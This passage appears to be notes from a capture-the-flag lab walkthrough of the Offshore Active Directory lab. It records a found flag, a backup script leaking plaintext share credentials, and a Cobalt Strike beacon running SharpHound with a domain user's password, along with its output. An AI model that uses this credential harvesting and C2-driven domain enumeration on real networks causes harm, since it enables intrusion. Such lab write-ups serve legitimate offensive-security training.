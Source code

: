 ```powershell
OFFSHORE{sl0ppy_scr1pting_hurt$}
``` 
`cat backup.ps1`
```powershell
PS C:\Windows\system32> cat \\fs01\users\bill\documents\backup.ps1
#set server location,credentials
$Server = "\\172.16.4.100"
$FullPath = "$Server\q1\backups"
$username = "pgibbons"
$password = "I l0ve going Fishing!"

net use $Server $password /USER:$username  
try  
{
#copy the backup
Copy-Item $zipFileName $FullPath  
#remove all zips older than 1 month from the unc path
Get-ChildItem "$uncFullPath\*.zip" |? {$_.lastwritetime -le (Get-Date).AddMonths(-1)} |% {Remove-Item $_ -force }  
}
catch [System.Exception] {  
WriteToLog -msg "could not copy backup to remote server... $_.Exception.Message" -type Error  
}
finally {  
#cleanup
net use $Server /delete  
}
PS C:\Windows\system32> 

```

use bloodhound with `WSADM` domain credentials to find how to connect to 172.16.4.100

# SQL01 session

from `sql-01` setup a `cobalt strike beacon`
![[Pasted image 20231221144958.png]]
running `sharphound.exe` as `domain user` bill, can be any `DU`
```powershell
beacon> execute-assembly /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe -c all --ldapusername bill --ldappassword "I like to map Shares!"
[*] Tasked beacon to run .NET program: SharpHound.exe -c all --ldapusername bill --ldappassword "I like to map Shares!"

[+] host called home, sent: 1155966 bytes
[+] received output:
2023-12-21T13:30:16.8241302-05:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound

2023-12-21T13:30:17.4022590-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

2023-12-21T13:30:17.4491315-05:00|INFORMATION|Initializing SharpHound at 1:30 PM on 12/21/2023


[+] received output:
2023-12-21T13:30:18.2460132-05:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for corp.local : DC01.corp.local


[+] received output:
2023-12-21T13:30:18.4022673-05:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
```